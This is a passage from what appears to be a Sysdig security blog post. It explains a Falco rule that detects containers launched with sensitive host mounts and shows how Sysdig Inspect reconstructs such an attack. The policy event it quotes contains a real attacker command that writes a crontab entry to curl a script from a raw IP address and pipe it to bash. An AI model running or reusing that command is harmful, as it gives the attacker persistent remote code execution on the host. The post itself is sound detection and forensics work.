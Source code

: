 The text of the policy event reads:

    Container with sensitive mount started (user=root command=sh -c echo "* * * * * curl -s http://104.225.147.196:8220/logo3.jpg | bash -s" >> /mnt/etc/crontab k8s_test-container.315f34fe_superte_default_e3181c32-b860-11e7-9298-0a6b4c184eb2_e61efe51 (id=48dfe61fe3fd))

One of Sysdig Secure's default policies examines the mounts used by newly created containers. It considers certain file paths from the host as "sensitive". Any attempt to start a container that mounts one of these sensitive paths from the host results in a policy event. Here are the relevant sections from the falco rules file:

<pre><code class="yaml language-yaml">- macro: sensitive_mount
  condition: (container.mount.dest[/proc*] != "N/A" or
              container.mount.dest[/var/run/docker.sock] != "N/A" or
              container.mount.dest[/] != "N/A" or
              container.mount.dest[/etc] != "N/A" or
              container.mount.dest[/root*] != "N/A")

- rule: Launch Sensitive Mount Container
  desc: &gt;
    Detect the initial process started by a container that has a mount from a sensitive host directory
    (i.e. /proc). Exceptions are made for known trusted images.
  condition: &gt;
    evt.type=execve and proc.vpid=1 and container
    and sensitive_mount
    and not trusted_containers
    and not user_sensitive_mount_containers
  output: Container with sensitive mount started (user=%user.name command=%proc.cmdline %container.info image=%container.image mounts=%container.mounts)
  priority: INFO
  tags: [container, cis]</code></pre> Specifically, we're looking for a process launch with pid=1 from the container's namespace. This is the initial process launched in a container. When we see that process launch, we look up mount information for the associated container to see if any mount is related to a sensitive filesystem from the host. If the container has a sensitive mount, Sysdig Secure emits a policy event and starts a sysdig capture. 

### Investigating Attack Using Sysdig Inspect {#investigatingattackusingsysdiginspect}

Remember that we configured the policy to trigger a sysdig capture when the suspicious behavior was identified. This includes a back-in-time component, using a rotating buffer of system events that the Sysdig Agent keeps in memory. The capture includes 30 seconds of activity preceding the policy event and 30 seconds of activity following the policy event.

Using the sysdig capture, we can use a tool like <a href="https://github.com/draios/sysdig-inspect/" target="_blank" rel="noopener">Sysdig Inspect</a> to reconstruct the attack as it occurred. Let's start with an overview:

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_overview.png" alt="Sysdig Inspect Overview" title="Sysdig Inspect Overview" class="alignleft wp-image-4350" width="1200" height="750" />][2]

The top shows a series of tiles summarizing different types of activity. On the bottom, we've stacked a timeline of several different types of activity:

*   Network Connections
*   Modified File Bytes
*   Docker Events
*   The number of running containers
*   Sysdig Secure Notifications


 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_crontab_policy_event.png
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_overview.png
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_create_container.png
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_containers.png
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_container_processes.png
 [6]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_events.png
 [7]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_contents.png
 [8]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_events.png
 [9]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_secure_overview.png
 [10]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_wget_mm.png
 [11]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_events_detail.png
 [12]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_inspect_overview.png
 [13]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_1.png
 [14]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_2.png
 [15]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_3.png
 [16]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_fs.png
 [17]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_streams.png
 [18]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_connections.png
 [19]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_dns.png
 [20]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_single_conn.png